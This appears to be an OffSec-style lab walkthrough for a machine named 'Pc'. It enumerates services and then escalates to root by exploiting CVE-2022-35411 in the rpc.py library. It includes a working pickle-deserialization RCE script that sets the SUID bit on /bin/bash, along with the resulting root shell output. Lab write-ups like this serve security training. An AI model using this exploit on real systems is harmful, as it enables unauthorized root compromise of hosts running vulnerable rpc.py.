 ____

# Walkthrough for Pc

# Enumeration

## Nmap

With nmap scan, we notice a web server on the target machine. At port 8000

Visiting the web server, we see the **tty** terminal with the very low-privileged user "**user**".

## Enumeration

We start with the enumeration.

We find an interesting file under `/opt` directory, `rpc.py`

This file seems like is using the RPC protocol that sets up an RPC server.

It looks like it would have run at port 65432,

```python
if __name__ == "__main__":
    uvicorn.run(app, interface="asgi3", port=65432)
```

Looking at network connections we notice that the RPC server is actually running,

Under, `/etc/supervisor/conf.d` directory,

We notice 2 files `rpc.conf` and `ttyd.conf`.

Now that we have a better understanding about the services and the configurations let's dive into exploitation.

# Privilege Escalation

`RPC` is a class from the `rpcpy` library that allows you to define remote procedure calls that can be accessed by clients over a network.

Find more details about it from here: [rpc.py · PyPI](https://pypi.org/project/rpc.py/)

## rpcpy

> An fast and powerful RPC framework based on ASGI/WSGI

Searching **"python rpcpy exploit"** on google will lead us [here](https://security.snyk.io/vuln/SNYK-PYTHON-RPCPY-2946719).

![](https://portal.offsec.com/labs/images/snyk.png)

The detail exploitation steps can be found here: https://www.exploit-db.com/exploits/50983

We find that "**[2022-35411](https://nvd.nist.gov/vuln/detail/CVE-2022-35411)"** has been recorded for **rpc.py**.

Using the exploit below we can elevate our privileges,

```python
import requests
import pickle

HOST = "127.0.0.1:65432"
URL = f"http://{HOST}/sayhi"
HEADERS ={
    "serializer": "pickle"
}

def generate_payload(cmd):
    class PickleRce(object):
        def __reduce__(self):
            import os
            return os.system, (cmd,)
    payload = pickle.dumps(PickleRce())
    print(payload)
    return payload

def exec_command(cmd):
    payload = generate_payload(cmd)
    requests.post(url=URL, data=payload, headers=HEADERS)

def main():
    exec_command('id;chmod u+s /bin/bash')

if __name__ == "__main__":
	main()
```

```python
user@pc:/home/user$ python3 expl.py 
b'x80x04x951x00x00x00x00x00x00x00x8cx05posixx94x8cx06systemx94x93x94x8cx16id;chmod u+s /bin/bashx94x85x94Rx94.'
user@pc:/home/user$ ls -alh /bin/bash
-rwsr-xr-x 1 root root 1.2M Apr 18  2022 /bin/bash
user@pc:/home/user$ /bin/bash -p -i 
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
bash-5.0# 
```